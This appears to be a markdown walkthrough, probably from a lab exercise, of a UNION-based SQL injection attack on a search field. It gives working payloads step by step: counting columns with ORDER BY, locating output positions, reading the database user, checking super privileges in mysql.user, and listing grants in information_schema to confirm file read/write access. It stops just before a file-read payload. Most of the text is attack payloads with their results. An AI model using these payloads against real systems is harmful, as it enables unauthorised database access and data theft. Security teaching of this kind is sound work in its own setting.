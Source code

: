PAYLOAD
-------

```
a ' ORDER BY 1 -- -
```
when we use this on search bar they show us nothing that means they have one column but we have to totel number of columns so we increment the number like order by 2 , order by 3 .. etc so when we use order by 6 they show us an error that says ' Unknown column '6' in 'order clause'
this means they have 5 columns so now we know totel number of columns now we have to find attack positions to build our payload to do this we use the following payload 

PAYLOAD
-------

```
a ' UNION SELECT 1 ,2 ,3 ,4 ,5 -- - 
```
So when we use this this shows us 2 3 4 and 5 number on the screen so this means we can only see that positions to see our output 

Now we know the totel number of columns and the attack positions to see out result now we start enumerating Database 

DATABASE Enumeration
--------------------

First we have to know which user the database we use so to do that we use the following payload 

PAYLOAD
-------

```
cn' UNION SELECT 1, user(), 3, 4,5 -- -
```
this show us the user we are using and that is `root@localhost`

Now we have to find privilege to that user to do that we use the following payload 

PAYLOAD
-------

```
cn' UNION SELECT 1, super_priv, 3, 4,5 FROM mysql.user WHERE user="root"-- -
```
this payload show us if we have super priv or not if they show yes we have other wise not

And we use the following payload to get which totel queries our use can use 

```
cn' UNION SELECT 1, grantee, privilege_type, is_grantable ,5 FROM information_schema.user_privileges-- -
```
this will show us all the queries we can use with that use and we can see we can read and write files with that user 

So now we know our user privleges and also we know we can read and write files from that user so let use it so we can read file from the system with the following payload 
